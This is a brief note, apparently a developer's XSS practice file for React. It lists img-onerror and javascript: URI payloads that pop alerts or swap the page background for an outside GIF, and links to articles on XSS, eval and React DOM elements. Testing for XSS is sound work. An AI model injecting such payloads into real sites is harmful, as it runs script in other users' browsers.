 <img src='x' onerror="document.body.background='https://www.icegif.com/wp-content/uploads/2022/01/icegif-179.gif'">
<img src='x' onerror='alert("la hemos liao")'>

javascript:alert("Hacked");
javascript:document.body.background='https://www.icegif.com/wp-content/uploads/2022/01/icegif-179.gif';

https://medium.com/dont-leave-me-out-in-the-code/basic-cross-site-scripting-xss-attacks-in-react-3b4c26818fba

https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval

https://reactjs.org/docs/dom-elements.html
